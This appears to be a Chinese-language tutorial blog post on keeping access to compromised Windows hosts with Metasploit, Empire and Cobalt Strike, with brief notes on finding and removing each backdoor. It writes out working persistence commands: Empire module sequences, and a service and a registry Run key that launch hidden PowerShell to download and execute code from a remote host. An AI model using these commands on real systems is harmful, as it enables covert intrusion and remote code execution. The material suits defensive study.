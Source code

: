 ```yaml
---
title: 第03章：权限维持篇第6篇：三大渗透测试框架权限维持技术
date: '2024-06-13 13:10'
categories: 渗透测试
tags: 应急响应
cover: 'https://gitee.com/eviden/img/raw/master/33591dfae30e46459108dc785e1217a9.png'
description: 学习应急响应咯!
abbrlink: 75567d72
---
```

                
### 0x00 前言

在渗透测试中，有三个非常经典的渗透测试框架----Metasploit、Empire、Cobalt Strike。

那么，通过漏洞获取到目标主机权限后，如何利用框架获得持久性权限呢？

### 0x01 MSF权限维持

使用MSF维持权限的前提是先获得一个*meterpreter*  shell，通过*meterpreter* shell获取持久性shell的方法有两种：

**Persistence模块**

通过启动项启动(persistence)的方式，在目标机器上以反弹回连。

![](./image/privilege-3-1.png)

~~~
-U：设置后门在用户登录后自启动。该方式会在HKCU\Software\Microsoft\Windows\CurrentVersion\Run下添加注册表信息。推荐使用该参数；
-X：设置后门在系统启动后自启动。该方式会在HKLM\Software\Microsoft\Windows\CurrentVersion\Run下添加注册表信息。由于权限问题，会导致添加失败，后门将无法启动。
-S：作为服务自动启动代理程序（具有SYSTEM权限）
~~~

生成的相关文件位置 ：

```
# 后门文件位置：
C:\Windows\Temp
C:\Users\Administrator\AppData\Local\Temp
# 注册表位置：
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\
HKLM\Software\Microsoft\Windows\CurrentVersion\Run\
```

![](./image/privilege-3-2.png)

**Metsvc 模块**

通过服务(metsvc)启动的方式，在目标机器启动后自启动一个服务，等待连接。

![](./image/privilege-3-3.png)

后门排查：目标主机上开启了一个Meterpreter服务。

![](./image/privilege-3-4.png)

### 0x02 Empire 权限维持

Empire的persistence模块提供了18种权限维持的方法，大致可以分为四类，即

![](./image/privilege-3-17.png)


| elevated（管理权限） | misc（杂项） |  powerbreach  | userland（用户权限） |
| :-------                | :---------           | :---------                    | :---------   |
| registry*               | add_netuser      |   deaduser                | backdoor_lnk |
| schtasks*  |   add_sid_history*    |   eventlog*    | registry |
| wmi*   |    debugger*      | resolver  | schtasks |
| wmi_updater* |   disable_machine_acct_change*   |    |  |
||   get_ssps     |    |  |
||   install_ssp*     |    |  |
||   memssp*        |    |  |
||   skeleton_key*        |    |  |



**注册表**

~~~
(Empire: agents) > agents
(Empire: agents) > interact URL3FZBV
(Empire: URL3FZBV) > usemodule persistence/elevated/registry*
(Empire: powershell/persistence/elevated/registry) > set Listener test
(Empire: powershell/persistence/elevated/registry) > execute
~~~

![](./image/privilege-3-5.png)

因为是开机启动，所以会弹个黑框，之后还会弹出注册表添加的powershell启动项的框，在注册表位置如下：

![](./image/privilege-3-6.png)

**计划任务**

~~~
(Empire: agents) > interact 9NZ2RWBC
(Empire: 9NZ2RWBC) > usemodule persistence/elevated/schtasks*
(Empire: powershell/persistence/elevated/schtasks) > set Listener test
(Empire: powershell/persistence/elevated/schtasks) > set DailyTime 22:50
(Empire: powershell/persistence/elevated/schtasks) > execute
~~~

![](./image/privilege-3-7.png)

在任务计划程序库可以看到-任务为Updater-启动程序如下可以到为powershell

![](./image/privilege-3-8.png)

**wmi**

~~~
(Empire: agents) > interact 9NZ2RWBC
(Empire: 9NZ2RWBC) > usemodule persistence/elevated/wmi
(Empire: powershell/persistence/elevated/wmi) > set Listener test
(Empire: powershell/persistence/elevated/wmi) > run
~~~

![](./image/privilege-3-9.png)

如何清除后门，最简单的方法就是使用Autoruns，选择WMI选项卡，右键就可以删除恶意后门。

![](./image/privilege-3-10.png)

### 0x03 Cobalt Strike权限维持

通过Cobalt Strike拿到一个shell，留后门的方法有很多，下面介绍两种比较常见的无文件、自启动后门。

从Cobalt Strike菜单栏，Attacks--Web Drive-by--Scaripted Web Delivery，生成powershell后门。

![](./image/privilege-3-11.png)

根据需要可以自己选择，填写所需参数默认端口是80（需要注意的就是不要使用重复端口），Type选择powershell。

![](./image/privilege-3-12.png)

点击Launch后，返回powershell远程下载执行命令。

![](./image/privilege-3-13.png)

**服务自启动后门**

~~~
sc create "Name" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8080/a'))\""
sc description  Name "Just For Test"   //设置服务的描述字符串
sc config Name start= auto             //设置这个服务为自动启动 
net start Name                         //启动服务
~~~

重启服务器后，成功返回一个shell。

![](./image/privilege-3-14.png)

**注册表自启动**

在windows启动项注册表里面添加一个木马程序路径，如：

~~~
beacon>getsystem
beacon>shell reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "Keyname" /t REG_SZ /d "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8080/a'))\"" /f 
~~~

![](./image/privilege-3-15.png)

 账号注销后，重新登录，界面上会出现powershell快速闪过消失，成功返回shell。

![](./image/privilege-3-16.png)

注册表还有哪些键值可以设置为自启动：

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```

------

### 0x04 结束语

本文简单介绍了通过三大渗透框架进行权限维持的几种方法，了解攻击者常用的渗透框架及后门技术，有助于更好地去发现并解决服务器安全问题。


